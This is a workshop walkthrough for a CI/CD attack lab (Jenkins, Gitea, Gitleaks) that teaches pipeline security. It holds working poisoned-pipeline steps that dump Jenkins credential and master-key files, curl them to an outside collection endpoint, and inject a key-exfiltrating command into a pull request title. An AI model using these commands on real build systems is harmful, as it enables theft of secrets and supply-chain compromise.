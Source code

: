 This Walk Thru contains commands and snippets that will be used in the workshop, and should help save time from manually typing complex commands or copying and pasting from slides which may mangle text.

### URL List

CTFd
- http://`[randomhash]`.mylabserver.com:8000
  - alice/alice

Gitea
- http://`[randomhash]`.mylabserver.com:3000
  - thealice/thealice

GitLab
- http://`[randomhash]`.mylabserver.com:4000
  - alice/alice1234

Jenkins
- http://`[randomhash]`.mylabserver.com:8080
  - alice/alice



### Slide 23
```
withCredentials([string(credentialsId 'flag1', variable: 'flag1')])
    sh '''
        echo $flag1 |base64
    '''
}
```

### Slide 25

Replace `any` with the below
```
{node 'built-in'}
```
>e.g. `agent {node 'built-in'}`

Add the following to the `sh """` block
```
echo $JENKINS_HOME
cat $JENKINS_HOME/credentials.xml | base64
cat $JENKINS_HOME/secrets/master.key | base64
cat $JENKINS_HOME/secrets/hudson.util.Secret | base64
ls $JENKINS_HOME
cat $JENKINS_HOME/flag5.txt
```
>Your code should look like the below:
>```
>sh """
>    virtualenv venv
>    pip install -r requirements.txt || true
>    echo $JENKINS_HOME
>    cat $JENKINS_HOME/credentials.xml | base64
>    cat $JENKINS_HOME/secrets/master.key | base64
>    cat $JENKINS_HOME/secrets/hudson.util.Secret | base64
>    ls $JENKINS_HOME
>    cat $JENKINS_HOME/flag5.txt
>"""
>```

>**Note**: Jenkins is a fork of Hudson https://en.wikipedia.org/wiki/Hudson_(software) which was originally made by Sun Microsystems as an Open Source Project, then forked when Oracle bought it and wanted to trademark/monitize Hudson. So you'll sometimes see references to it such as in one of the files above.

### Slide 26


Go to requestbin.com and create a public bin

```
stage('Install Requirements') {
  steps {
    sh """
      curl -X POST \
      -F "file1=\$(cat $JENKINS_HOME/credentials.xml | base64 -w 0 | rev)" \
      -F "file2=\$(cat $JENKINS_HOME/secrets/master.key | base64 -w 0 | rev)" \
      -F "file3=\$(cat $JENKINS_HOME/secrets/hudson.util.Secret |base64 -w 0 | rev)" \
      -F "file4=\$(cat $JENKINS_HOME/flag5.txt | base64 | rev)" \
      ENDPOINT_URL
    """
  }


}
```

### Slide 29

```
docker pull ghcr.io/gitleaks/gitleaks:latest
```

```
git clone http://localhost:3000/Wonderland/duchess.git
```

```
docker run -v ./duchess/:/path ghcr.io/gitleaks/gitleaks:latest detect --source="/path" -v
```

```
cd duchess
```

```
ls -al
```

```
git log -L 8,8:.pypirc 43f216c
```

### Slide 33

Return to home from less exercise
```
cd ~
```

Get IP address of host network interface
```
ip addr show dev ens5
```

```
sudo netcat -nvlp 80
```

Go to Gitea instance

http://<server>:3000/

thealice/thealice

http://<server>:3000/Cov/reportcov

Paste this into pull request title, replace `<YOUR SERVER IP>` with the one you got from the `ip addr` command above.
```
echo ${KEY} > key && curl -v -F file=@key <YOUR SERVER IP>
```

### Slide 37

```
git clone http://localhost:3000/Wonderland/mock-turtle.git
```

Use the same creds for gitea: thealice/thealice

```
cd mock-turtle
```

```
git checkout -b branch1
```

```
nano version
```

Update the version number 

Save the file `Ctrl-O`

Exit nano `Ctrl-X`

### Slide 38

```
nano Jenkinsfile
```

Paste this into the file at the line just below `steps {`:
```
withCredentials([usernamePassword(credentialsId: 'flag10', usernameVariable: 'USERNAME', passwordVariable: 'TOKEN')]) {
    sh 'echo $TOKEN | base64'
}
```

Save the file `Ctrl-O`

Exit nano `Ctrl-X`

Next commit the file change

```
git add version Jenkinsfile
```

```
git commit -m "New version"
```

Push the changes up to the repository
```
git push --set-upstream origin branch1
```

In Gitea navigate to the mock-turtle repo, and switch to the new branch `branch1`

Create a pull request and submit it.

The pull request should get autoapproved.

Go to Jenkins and you should see an automated build kicked off for the new "version".

Look at the console output of the new build.


### Resources

[NSA/CISA Defending Continuous Integration/Continuous Delivery (CI/CD) Environments](https://media.defense.gov/2023/Jun/28/2003249466/-1/-1/0/CSI_DEFENDING_CI_ENVIRONMENTS.PDF)

[NIST Strategies for the Integration of Software Supply Chain Security in DevSecOps CI/CD pipelines](https://csrc.nist.gov/pubs/sp/800/204/d/ipd)

[OWASP Top 10 CICD Risks](https://owasp.org/www-project-top-10-ci-cd-security-risks/)

[CI/CD GOAT](https://github.com/cider-security-research/cicd-goat/#readme)


